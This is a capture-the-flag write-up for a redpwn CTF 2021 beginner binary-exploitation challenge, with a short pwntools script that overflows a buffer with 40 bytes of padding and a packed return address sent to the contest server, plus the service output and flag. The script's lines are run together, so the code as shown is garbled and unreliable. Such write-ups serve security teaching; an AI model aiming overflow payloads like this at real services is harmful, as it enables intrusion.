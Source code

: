 # beginner-generic-pwn-number-0

Category: Binary Exploitation

Source: redpwn CTF 2021

Author: pepsipu

Score: 5

## Description

rob keeps making me write beginner pwn! i'll show him...

```
nc mc.ax 31199
```

## Downloads

[beginner-generic-pwn-number-0](https://static.redpwn.net/uploads/1e27cfadfb40b4f3faa522e57565371c52ef70e46830aab2c8d6c35f3808b319/beginner-generic-pwn-number-0)

[beginner-generic-pwn-number-0.c](https://static.redpwn.net/uploads/ce82796645cd48396ac95cd649e83faaf121589d578096a141c56ee444347a54/beginner-generic-pwn-number-0.c)

## Solution

So I know this was a buffer overflow because entering a lot of "A" created a segmentation fault.

```
from pwn import *
flag_address = 0xffffffffffffffffpayload = b"A" * 40
# binary = process("./beginner-generic-pwn-number-0")binary = remote("mc.ax", 31199)print(binary.recvuntil(":(\n"))binary.sendline(payload + p64(flag_address))binary.interactive()# Normal Response# b'"\xf0\x9d\x98\xb1\xf0\x9d\x98\xad\xf0\x9d\x98\xa6\xf0\x9d\x98\xa2\xf0\x9d\x98\xb4\xf0\x9d\x98\xa6 \xf0\x9d\x98\xb8\xf0\x9d\x98\xb3\xf0\x9d\x98\xaa\xf0\x9d\x98\xb5\xf0\x9d\x98\xa6 \xf0\x9d\x98\xa2 \xf0\x9d\x98\xb1\xf0\x9d\x98\xb8\xf0\x9d\x98\xaf \xf0\x9d\x98\xb4\xf0\x9d\x98\xb0\xf0\x9d\x98\xae\xf0\x9d\x98\xa6\xf0\x9d\x98\xb5\xf0\x9d\x98\xaa\xf0\x9d\x98\xae\xf0\x9d\x98\xa6 \xf0\x9d\x98\xb5\xf0\x9d\x98\xa9\xf0\x9d\x98\xaa\xf0\x9d\x98\xb4 \xf0\x9d\x98\xb8\xf0\x9d\x98\xa6\xf0\x9d\x98\xa6\xf0\x9d\x98\xac"\nrob inc has had some serious layoffs lately and i have to do all the beginner pwn all my self!\ncan you write me a heartfelt message to cheer me up? :(\n'
```

**Flag: flag{im-feeling-a-lot-better-but-rob-still-doesnt-pay-me}**

## Reference

Writeup from https://codingmace.gitbook.io/masterward/ctf/2021/redpwn-2021#beginner-generic-pwn-number-0